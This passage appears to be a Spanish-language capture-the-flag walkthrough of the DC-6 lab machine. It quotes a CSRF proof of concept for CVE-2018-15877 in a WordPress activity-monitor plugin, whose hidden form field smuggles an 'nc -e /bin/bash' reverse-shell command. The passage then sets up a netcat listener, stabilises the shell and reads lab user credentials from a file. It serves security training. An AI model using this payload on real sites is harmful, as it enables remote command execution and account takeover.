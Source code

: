 ```bash
Privileges are required in order to exploit this vulnerability, but
this plugin version is also vulnerable to CSRF attack and Reflected
XSS. Combined, these three vulnerabilities can lead to Remote Command
Execution just with an admin click on a malicious link.

References:
===========
https://github.com/aas-n/CVE/blob/master/CVE-2018-15877/

PoC:
-->

<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc 10.0.1.15 1234 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Ahora utilizaremos Netcat para escuchar en el puerto que hemos especificado."
```bash
nc -lvnp 1234
```
Ahora ejecutamos el archivo 45274.html para establecer la conexión inversa
```bash
file:///home/kali/45274.html
```
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Explorando, encontramos en el directorio /home/mark/stuff un archivo llamado thing-to-do.txt, donde hallamos las credenciales de graham
```bash
www-data@dc-6:/home/mark/stuff$ pwd
pwd
/home/mark/stuff
www-data@dc-6:/home/mark/stuff$ cat things-to-do.txt
cat things-to-do.txt
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```
```bash
username: graham
password: GSo7isUM1D4
```